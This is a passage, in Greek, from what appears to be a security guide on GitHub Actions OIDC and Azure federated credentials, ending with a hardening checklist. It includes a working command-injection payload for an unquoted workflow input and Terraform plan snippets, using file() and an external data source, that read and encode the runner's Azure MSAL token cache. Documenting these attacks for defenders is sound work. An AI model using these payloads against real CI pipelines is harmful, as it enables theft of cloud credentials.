 ## Διαδρομές εκτέλεσης κώδικα που παρακάμπτουν τις προστασίες job_workflow_ref

Ακόμη και με σωστά scoped job_workflow_ref, οποιαδήποτε δεδομένα που ελέγχονται από τον caller και φτάνουν στο shell χωρίς ασφαλές quoting μπορούν να οδηγήσουν σε εκτέλεση κώδικα μέσα στο προστατευμένο context του workflow.

Παράδειγμα ευάλωτου reusable step (unquoted interpolation):
```yaml
- name: Example Security Check
run: |
echo "Checking file contents"
if [[ "${{ inputs.file_contents }}" == *"malicious"* ]]; then
echo "Malicious content detected!"; exit 1
else
echo "File contents are safe."
fi
```
Κακόβουλη είσοδος του caller για εκτέλεση εντολών και εξαγωγή του Azure token cache:
```yaml
with:
file_contents: 'a" == "a" ]]; then cat /home/runner/.azure/msal_token_cache.json | base64 -w0 | base64 -w0; fi; if [[ "a'
```
## Το Terraform plan ως μέσο εκτέλεσης σε PRs

Θεώρησε το Terraform plan ως εκτέλεση κώδικα. Κατά το plan, το Terraform μπορεί:
- Διαβάσει αυθαίρετα αρχεία μέσω συναρτήσεων όπως file()
- Εκτελέσει εντολές μέσω του external data source

Παράδειγμα για exfiltrate του Azure token cache κατά το plan:
```hcl
output "msal_token_cache" {
value = base64encode(base64encode(file("/home/runner/.azure/msal_token_cache.json")))
}
```
Ή χρησιμοποιήστε external για να εκτελέσετε αυθαίρετες εντολές:
```hcl
data "external" "exfil" {
program = ["bash", "-lc", "cat ~/.azure/msal_token_cache.json | base64 -w0 | base64 -w0"]
}
```
Granting FICs usable on PR‑triggered plans exposes privileged tokens and can tee up destructive apply later. Separate identities for plan vs apply; never allow privileged tokens in untrusted PR contexts.

## Λίστα ελέγχου σκληρύνσεως

- Μην χρησιμοποιείτε ποτέ sub=...:pull_request για ευαίσθητα FICs
- Προστατέψτε οποιοδήποτε branch/tag/environment που αναφέρεται από FICs (branch protection, environment reviewers)
- Προτιμήστε FICs scoped σε repo και job_workflow_ref για reusable workflows
- Προσαρμόστε το GitHub OIDC sub ώστε να περιλαμβάνει μοναδικά claims (π.χ., repo, job_workflow_ref, repository_owner)
- Εξαλείψτε την unquoted interpolation των caller inputs μέσα σε run steps· κωδικοποιήστε/quote με ασφάλεια
- Θεωρήστε το terraform plan ως εκτέλεση κώδικα· περιορίστε ή απομονώστε τα identities σε PR contexts
- Επιβάλετε least privilege στα App Registrations· ξεχωριστές ταυτότητες για plan vs apply
- Pin actions και reusable workflows σε commit SHAs (αποφύγετε branch/tag pins)
